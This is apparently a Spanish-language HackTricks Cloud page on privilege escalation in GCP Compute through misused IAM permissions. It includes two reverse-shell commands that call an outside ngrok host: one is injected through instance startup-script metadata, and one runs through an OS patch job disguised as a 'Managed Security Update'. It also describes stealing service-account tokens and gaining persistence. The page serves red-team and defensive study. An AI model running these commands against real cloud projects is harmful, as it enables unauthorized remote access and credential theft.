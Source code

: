 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Para más información sobre Compute y VPC (red) en GCP, consulta:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Ten en cuenta que para realizar todos los ataques de escalada de privilegios que requieren modificar los metadatos de la instancia (como agregar nuevos usuarios y claves SSH) es **necesario que tengas permisos `actAs` sobre la SA adjunta a la instancia**, ¡incluso si la SA ya está adjunta!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con ese permiso puedes **modificar** la información de **metadatos** de una **instancia** y cambiar las **claves autorizadas de un usuario**, o **crear** un **nuevo usuario con permisos sudo**. Por lo tanto, podrás acceder a través de SSH a cualquier instancia de VM y robar la Cuenta de Servicio de GCP con la que se está ejecutando la instancia.\
Limitaciones:

* Ten en cuenta que las Cuentas de Servicio de GCP que se ejecutan en instancias de VM por defecto tienen un **alcance muy limitado**
* Necesitarás **poder contactar al servidor SSH** para iniciar sesión

Para más información sobre cómo explotar este permiso, consulta:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

También podrías realizar este ataque agregando un nuevo script de inicio y reiniciando la instancia:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Este permiso otorga los **mismos privilegios que el permiso anterior** pero sobre instancias específicas en lugar de un proyecto completo. **Los mismos exploits y limitaciones que para la sección anterior se aplican**.

### `compute.instances.setIamPolicy`

Este tipo de permiso te permitirá **otorgarte un rol con los permisos anteriores** y escalar privilegios abusando de ellos.

### **`compute.instances.osLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso solo puedes ejecutar **`gcloud compute ssh [INSTANCE]`** y conectarte a la instancia. No **tendrás privilegios de root** dentro de la instancia.

{% hint style="success" %}
Para iniciar sesión con éxito con este permiso dentro de la instancia de VM, necesitas tener el permiso `iam.serviceAccounts.actAs` sobre la SA adjunta a la VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso solo puedes ejecutar **`gcloud compute ssh [INSTANCE]`** y conectarte a la instancia. Tendrás **privilegios de root** dentro de la instancia.

{% hint style="success" %}
Para iniciar sesión con éxito con este permiso dentro de la instancia de VM, necesitas tener el permiso `iam.serviceAccounts.actAs` sobre la SA adjunta a la VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es posible **crear una máquina virtual con una Cuenta de Servicio asignada y robar el token** de la cuenta de servicio accediendo a los metadatos para escalar privilegios a ella.

El script de exploit para este método se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si tienes los permisos **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puedes crear un [**trabajo de parcheo o despliegue**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Esto te permitirá moverte lateralmente en el entorno y obtener ejecución de código en todas las instancias de cómputo dentro de un proyecto.

Ten en cuenta que en este momento **no necesitas el permiso `actAs`** sobre la SA adjunta a la instancia.

Si deseas explotar esto manualmente, necesitarás crear ya sea un [**trabajo de parcheo**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **o** [**despliegue**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Para un trabajo de parcheo ejecuta:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Para implementar un despliegue de parches:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
La herramienta [patchy](https://github.com/rek7/patchy) podría haberse utilizado en el pasado para explotar esta mala configuración (pero ahora no está funcionando).

**Un atacante también podría abusar de esto para persistencia.**

### `compute.machineImages.setIamPolicy`

**Otórgate permisos adicionales** para la imagen de cómputo.

### `compute.snapshots.setIamPolicy`

**Otórgate permisos adicionales** para un snapshot de disco.

### `compute.disks.setIamPolicy`

**Otórgate permisos adicionales** para un disco.

### Bypass Access Scopes

Siguiendo este enlace encontrarás algunas [**ideas para intentar eludir los scopes de acceso**](../).

### Escalación de privilegios local en la instancia de GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencias

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
